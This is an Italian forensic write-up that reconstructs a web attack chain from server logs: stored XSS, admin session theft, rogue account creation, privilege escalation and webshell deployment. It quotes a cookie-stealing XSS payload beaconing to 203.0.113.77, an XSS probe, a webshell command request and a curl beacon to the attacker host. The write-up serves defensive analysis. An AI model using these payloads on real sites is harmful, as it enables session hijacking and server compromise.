



# Logs

Web server



Backend/application log



auditd, DB query, application audit log




# Accesso Iniziale / Iniezione
```
Accesso Iniziale / Iniezione
 └── 08:58:02 web01 php-fpm → Comment created by guest (203.0.113.77)
       Payload = <script> new Image().src="https://203.0.113.77/beacon?c="+document.cookie </script> (trace_id=xss-A)
 └── 09:03:47 web01 nginx → Reflected XSS test: /search?q=<script>alert(1)</script> (trace_id=xss-B)
```

Alle 08:58:02 noto un evento sospetto nei log di web01. Un utente guest, connesso dall’IP 203.0.113.77, lascia un commento su un prodotto. A prima vista sembra un normale commento, ma guardando meglio il contenuto scopro che non si tratta di testo comune. Dentro al campo del commento c’è uno script JavaScript malevolo:
`<script>new Image().src="https://203.0.113[.]77/beacon?c="+document[.]cookie</script>`
Questo significa che chiunque aprirà la pagina contenente quel commento si ritroverà ad eseguire del codice non autorizzato. In pratica, l’attaccante sta cercando di sfruttare una vulnerabilità di tipo Stored XSS (Cross-Site Scripting persistente): il codice rimane salvato nel database e verrà eseguito da altri utenti più avanti. È già un chiaro segnale che il sito non ha adeguate misure di sanitizzazione sugli input degli utenti.
Pochi minuti dopo, alle 09:03:47, arriva un’altra richiesta sospetta, questa volta dall’IP 198.51.100.44. L’utente prova a cercare qualcosa usando la funzione di ricerca del sito, ma dentro il parametro “q” non inserisce una parola normale. Al contrario, manda un frammento di codice:
`<script>alert(1)</script>`
Si tratta di un test classico, un Reflected XSS, usato spesso dagli attaccanti per capire se il sito risponde subito eseguendo script. In questo caso, se la pagina mostra il risultato della ricerca senza pulire l’input, lo script viene riflesso direttamente e scatta un pop-up nel browser. È come un “ping” per verificare se la porta è aperta.
A questo punto ho due indizi forti:
L’attaccante 203.0.113.77 ha già iniettato un payload XSS persistente nei commenti e ...Un secondo attaccante (o forse lo stesso, con un altro IP) sta testando la superficie di attacco con un payload riflesso.
Dal punto di vista difensivo, questa è la fase di accesso iniziale 
La cosa più preoccupante è che i log mostrano l’intera stringa malevola senza alcuna rimozione automatica. Questo conferma che l’applicazione web non ha sistemi di input sanitization adeguati e quindi è vulnerabile.

# Esecuzione del Payload XSS
```
Esecuzione del Payload XSS
 └── 09:21:33 web01 app[renderer] → Render product 214 
 └── 09:42:06 web01 nginx → Admin loads /admin/moderation (IP=10.10.5.32, session=SID_7f3b2)
     └── 09:42:07 web01 renderer 
 └── 09:42:08 web01 nginx →  payload executes, ruba admin session / sends XHR 
```

Alle 09:21:33, vedo nei log che il renderer di web01 apre la pagina del prodotto 214. Fin qui nulla di strano: un utente guest sta semplicemente visualizzando la scheda del prodotto. Ma c’è un dettaglio molto importante...i log mi dicono che vengono renderizzati 3 commenti e che non c’è nessuna sanificazione attiva. Questo significa che i commenti vengono presi dal database e mostrati così come sono, senza filtri. In quel momento capisco... tra quei commenti ce n’è uno con lo script malevolo iniettato poco prima dall’IP 203.0.113.77.
Passano venti minuti e alle 09:42:06 entra in scena l’amministratore del sito, che dall’indirizzo interno 10.10.5.32 apre la pagina di moderazione /admin/moderation. Dai log capisco che si tratta di una sessione con cookie valido (SID_7f3b2). Questo è il momento critico: l’amministratore sta per vedere i commenti, compreso quello con il codice malevolo.
Infatti, alle 09:42:07, il renderer di web01 registra che il template moderation.ejs carica 12 commenti in attesa di approvazione. Tra questi, c’è proprio il commento con HTML grezzo. Qui scatta la trappola: il browser dell’amministratore esegue il codice JavaScript iniettato dall’attaccante.
Il payload era stato pensato con un obiettivo preciso: rubare la sessione dell’amministratore. Lo script invia un beacon all’indirizzo controllato dall’attaccante (203.0.113.77), allegando il contenuto di document.cookie. In altre parole, la sessione dell’admin viene copiata e spedita all’esterno, senza che l’amministratore si accorga di nulla.
Subito dopo, alle 09:42:08, noto l’effetto diretto nei log: il browser dell’admin esegue una chiamata XHR verso l’API /api/me, ma non parte dall’admin in modo legittimo. È il payload dell’attaccante che lo forza, sfruttando la sessione rubata. A questo punto l’attaccante è dentro: può agire come se fosse l’amministratore, senza conoscere password o altri dettagli.
Questa fase segna il passaggio dall’iniezione all’esecuzione vera e propria. Il codice non è più dormiente dentro al commento, ma sta girando nel browser dell’admin. È qui che il danno diventa concreto: da un semplice script, l’attaccante ha ottenuto privilegi elevati.
La cosa più insidiosa è che tutto questo avviene lato client, nel browser dell’amministratore. Nei log del server vedo solo richieste normali, come se fosse stato l’admin stesso a cliccare. Ma io so che dietro c’è il payload che ora controlla la sessione.

# Abuso di Privilegi
```
Privilege Abuse
 └── 09:42:11 web01 php-fpm → Admin session, to POST /api/admin/preview
 └── 09:42:12 web01 audit →  user created: support-sync (role=manager) via hijacked admin session
 └── 09:42:14 db01 mysqld → INSERT INTO users (support-sync, manager, api_token=tok_d3e7…)
```
Dopo che il payload XSS è stato eseguito, l’attaccante ha in mano la sessione dell’amministratore. Nei log lo vedo chiaramente: alle 09:42:11, web01 registra una richiesta a /api/admin/preview. A prima vista sembra una normale azione dell’admin, ma in realtà è l’attaccante che la sta mandando usando i cookie rubati. Questo significa che, dal punto di vista del server, è tutto legittimo: il sistema pensa che sia proprio l’admin.
Subito dopo, alle 09:42:12, il log di audit conferma il primo vero abuso. Con la sessione dell’admin, l’attaccante crea un nuovo utente chiamato support-sync con ruolo “manager”. In pratica, si è aperto una porta secondaria: anche se l’amministratore originale dovesse accorgersi e disconnettersi, l’attaccante avrà comunque un account tutto suo.
Ma non finisce qui. Alle 09:42:14, il database db01 riceve un’istruzione SQL che inserisce l’utente support-sync nella tabella users, con tanto di token API (tok_d3e7…). Questo token permette di fare richieste dirette senza dover passare dalla normale interfaccia web. È un segnale chiaro: l’attaccante si sta preparando ad avere accesso stabile e veloce al sistema.
Finora l’attaccante si è limitato a sfruttare la sessione rubata. Ma ora, con un nuovo utente e un token, ha creato un punto di appoggio permanente dentro l’applicazione. Questo è tipico di un abuso di privilegi: usare un accesso temporaneo per ottenere qualcosa di più solido e duraturo.
Dal punto di vista difensivo, questo passaggio è molto pericoloso. Rubare una sessione è già grave, ma finché non viene usata, si può ancora intervenire. Creare un nuovo utente invece cambia tutto: diventa più difficile capire chi è il vero admin e chi è l’attaccante. Nei log sembrano entrambi utenti normali con privilegi alti.

# Persistenza / Escalation dell’Account
```
Persistenza / Escalation dell’Account
 └── 09:42:27 web01 audit → support-sync modifica l'impostazione (uploads enabled=true)
 └── 09:57:18 web01 audit → support-sync escalates il suo ruolo ad → admin
```
Dopo aver creato l’utente support-sync, l’attaccante non si ferma. Alle 09:42:27, nei log di audit vedo che questo nuovo utente compie la sua prima azione: modifica le impostazioni del sito. In particolare, abilita le uploads con il valore true. A prima vista sembra solo una configurazione tecnica, ma in realtà è una mossa chiave. Permettere gli upload significa dare all’attaccante la possibilità di caricare file direttamente sul server, inclusi file malevoli come webshell.
Nei minuti successivi la situazione sembra calma, ma in realtà l’attaccante si sta preparando. Passano circa 15 minuti, e alle 09:57:18 trovo un nuovo evento nei log: l’utente support-sync cambia il proprio ruolo da “manager” a admin. È un passaggio molto importante. Con questa escalation, il nuovo account diventa potente quanto, se non di più, dell’amministratore originale. Non dipende più dal cookie rubato: ora è un vero admin, con accesso completo.
Questa è una tecnica classica di persistenza. prima si ruba una sessione temporanea, poi si crea un nuovo utente, e infine si promuove quell’utente a ruolo massimo. Così, anche se la sessione rubata venisse invalidata o scoperta, l’attaccante continuerebbe ad avere accesso totale grazie al suo nuovo profilo.
Dal punto di vista difensivo, è molto insidioso. Nei log non appare nulla di chiaramente “anomalo”. Sembra che l’utente support-sync stia solo lavorando normalmente, cambiando impostazioni e aggiornando il proprio ruolo. Ma il fatto che l’azione avvenga subito dopo la comparsa del nuovo account e con tempi così ravvicinati è un forte indizio di compromissione.
In meno di venti minuti, un semplice utente “ospite invisibile” si è trasformato in un super-admin creato dall’attaccante stesso. Questo è il cuore della persistenza: assicurarsi che, anche se l’admin legittimo si accorge di qualcosa, l’attaccante possa sempre rientrare con le sue nuove credenziali.

# Deployment della Webshell
```
Webshell Deployment
 └── 09:43:01 web01 nginx → support-sync uploads shell.php (filename=shell.php, sha256=8f4e5b0e…)
 └── 09:43:05 web01 nginx → GET /uploads/shell.php?cmd=id (attacker lanchia il command)
 └── 09:44:42 web01 audit → curl beacon sent ad attacante infra (203.0.113.77) → RCE conf
```

Dopo aver ottenuto il ruolo di admin con l’account support-sync, l’attaccante passa subito all’azione più pericolosa: caricare un file malevolo sul server.
Alle 09:43:01, vedo nei log di nginx una richiesta POST verso /upload. A inviarla non è un utente normale, ma proprio support-sync. Il file caricato si chiama shell.php. Già il nome fa capire le intenzioni: non è un’immagine o un documento, ma un file PHP. In più, il log ci mostra anche l’hash SHA256 del file (8f4e5b0e…), segno che il sistema ha registrato l’upload. A questo punto, il server contiene un nuovo file PHP caricato direttamente dall’attaccante.
Subito dopo, alle 09:43:02, i log di php-fpm confermano che shell.php è stato salvato nella directory `/var/www/html/uploads/`. Non è un semplice file statico: essendo PHP, può essere eseguito dal server come se fosse una parte del sito. Questo significa che l’attaccante ha appena installato una porta segreta per eseguire comandi direttamente.
E infatti, pochi secondi dopo, alle 09:43:05, compare un accesso GET a:
`/uploads/shell.php?cmd=id`
Questa richiesta è il test classico: l’attaccante passa un parametro cmd=id, e il file esegue il comando id sul sistema. Il server risponde con il risultato, confermando che la shell funziona. È il momento in cui l’attaccante ottiene il pieno Remote Code Execution sul server web01.
Ma non finisce qui. Alle 09:44:42, i log di audit mostrano un comando curl lanciato dal server stesso:
`curl -s http://203.0.113.77/ping?u=www-data`
Questa è la prova definitiva: la webshell ha eseguito un comando che contatta direttamente l’infrastruttura dell’attaccante, mandando un beacon con l’utente corrente del server (www-data). In pratica, è la conferma che l’attaccante ha trasformato il server in un proprio strumento.
Dal punto di vista difensivo, questa è una delle fasi più gravi. Il file shell.php permette all’attaccante di lanciare qualsiasi comando sul sistema, leggere e modificare file, scaricare malware o muoversi nella rete interna. Non è più solo un attacco applicativo: ora è una compromissione completa del server.

# Impatto / Effetti sul Sistema
Dopo l’installazione e l’uso della webshell, l’attaccante ha ormai pieno controllo del server web01. Non si tratta più solo di rubare cookie o manipolare account: ora può eseguire comandi di sistema, leggere file sensibili e muoversi liberamente.
Alle 10:10:55, noto un evento critico: un worker di php-fpm va in crash con un errore di segmentazione (“segfault in renderer”). Questo può avere due spiegazioni: o l’attaccante ha provato comandi particolarmente invasivi che hanno fatto crollare il processo, oppure il sistema era già instabile a causa delle manipolazioni precedenti. In ogni caso, il crash è un segnale che il server non è più affidabile.
Subito dopo, alle 10:11:01, un processo CRON legittimo esegue il backup del database giornaliero. A prima vista sembra normale attività di manutenzione, ma qui assume un significato particolare: mentre il server è compromesso, i backup rischiano di includere dati già manipolati o addirittura di essere esfiltrati dall’attaccante.
In sintesi: il sistema web01 non è più integro. La catena di eventi ... dall’XSS iniziale fino alla webshell .. porta a un impatto grave: perdita di controllo, rischio per i dati degli utenti e possibilità che l’attaccante usi il server come trampolino per attacchi futuri.

